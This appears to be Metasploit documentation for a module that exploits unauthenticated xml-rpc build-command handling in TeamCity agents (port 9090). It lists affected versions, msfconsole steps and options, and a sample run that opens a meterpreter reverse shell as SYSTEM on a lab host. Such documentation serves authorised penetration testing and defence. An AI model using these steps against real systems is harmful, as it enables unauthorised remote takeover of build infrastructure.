 ## Description

This module allows remote code execution on TeamCity Agents configured to use bidirectional communication via xml-rpc. In bidirectional mode the TeamCity server pushes build commands to the Build Agents over port TCP/9090 without requiring authentication. Up until version 10 this was the default configuration. This module supports TeamCity agents from version 6.0 onwards.

This module makes use of both a Windows and a Linux command stager. For Linux, the `echo` command stager flavor was replaced with the `printf` command stager flavor due to portability issues associated with `echo` and its options.

## Vulnerable Application

This module has been tested successfully with the following TeamCity Agent versions

* TeamCity 6.0
* TeamCity 6.5
* TeamCity 7.0
* TeamCity 8.0
* TeamCity 9.0
* TeamCity 10.0
* TeamCity 2017
* TeamCity 2018

## Verification Steps

1. `msfconsole`
2. `use exploit/multi/misc/teamcity_agent_xmlrpc_exec`
3. `set RHOSTS <rhost>`
4. `set payload <payload>`
5. `run`

## Options

**RPORT**

Which port the TeamCity Agent is listening on (default: 9090)

**CMD**

If specified the module will run the specified command instead of executing the payload

## Scenarios

### Windows Server 2012 R2 (x64) with TeamCity Agent 2018.1

```
msf5 > use exploit/multi/misc/teamcity_agent_xmlrpc_exec 
msf5 exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set RHOSTS 172.16.198.149
RHOSTS => 172.16.198.149
msf5 exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/misc/teamcity_agent_xmlrpc_exec) > set LHOST eth0
LHOST => eth0
msf5 exploit(multi/misc/teamcity_agent_xmlrpc_exec) > run

[*] Started reverse TCP handler on 172.16.198.150:4444 
[*] Found TeamCity Agent running build version 58245
[*] Constructing Windows payload
[*] Found compatible build config for TeamCity build 58245
[*] Successfully sent build configuration
[*] Sending stage (179779 bytes) to 172.16.198.149
[*] Meterpreter session 1 opened (172.16.198.150:4444 -> 172.16.198.149:49178) at 2018-10-03 17:21:12 +0800

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```
